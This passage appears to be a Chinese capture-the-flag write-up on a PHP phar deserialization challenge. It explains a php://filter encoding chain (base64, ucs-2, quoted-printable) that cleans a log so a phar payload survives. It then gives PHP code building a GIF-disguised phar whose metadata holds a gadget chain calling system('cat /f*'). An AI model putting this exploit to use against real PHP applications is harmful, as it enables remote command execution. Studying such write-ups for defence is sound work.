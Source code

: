 之后观察日志内容，脏数据+文件内容+脏数据，只用b64肯定不行，我们尝试把除文件之外的其他内容变为b64的非法字符，这样最后b64解码即可

我们可以先将数据转换为utf-16le的格式，由原先的utf-8转换为utf-16le时，每一位字符后面都会直接添加一个不可见字符`\0`，再转回utf-8时，之后后面带`\0`的才会被转换 其余的会被当成乱码；这符合我们的要求

![image.png](https://i.loli.net/2021/11/29/pAxRiFMUvS6lmLH.png)

题中utf-16le被ban了，我们用ucs-2来代替

最后要处理的时空字节，`file_get_contents`在加载有空字节的文件时会报warning，我们用quoted-printable这种编码，即`php://filter/convert.quoted-printable-decode`这种过滤器；它对于所有可打印字符的ascii码（除`=`以外）都不变，对于`=`和不可打印的ascii码以及非ascii码的数据编码时 会先将每个字节的二进制代码用两个16进制数表示 再在前面加一个等号，比如`=`->`=3D`

我们的编码顺序

```
base64-encode-> utf-8-> ucs-2-> convert.quoted-printable-decode
```

会被解码的顺序

```
convert.quoted-printable-decode-> ucs-2-> utf-8-> base64-decode
```

经过这三次编码后就会有纯净的phar文件内容

最最最后的考点，`throw new Error`的存在，我们还需要改`i:0`和签名

```php
<?php

class User{
    public $username;
    public $password;

    public function __construct()
    {
        $this->username = new Myerror();
    }
}

class Files{
    public $filename;
}

class Myerror{
    public $message;
}

$user = new User();
$files = new Files();
$myerror = new Myerror();

$files->arg = 'cat /f*';
$myerror->message = $files;
$myerror->test = 'system';
$user->username = $myerror;
$user->password = [$user, "check"];

$a = [$user, null];

$phar = new Phar('phar.phar');
$phar -> startBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');   // 设置stub，增加gif文件头
$phar -> addFromString('test.txt','test');  // 添加要压缩的文件
$phar -> setMetadata($a);  // 将自定义meta-data存入manifest
$phar -> stopBuffering();
```
